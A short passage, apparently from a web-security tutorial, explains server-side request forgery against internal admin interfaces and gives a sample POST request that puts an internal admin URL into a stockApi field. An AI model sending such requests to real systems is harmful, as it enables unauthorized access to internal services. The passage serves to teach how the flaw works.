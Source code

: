  In many cases, internal back-end systems contain sensitive functionality that can be accessed 
 without authentication by anyone who is able to interact with the systems.

 In the previous example, imagine there is an administrative interface at the back-end URL `https://192.168.0.68/admin` 
 An attacker can submit the following request to exploit the SSRF vulnerability, and access the administrative interface:

 ```bash
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```
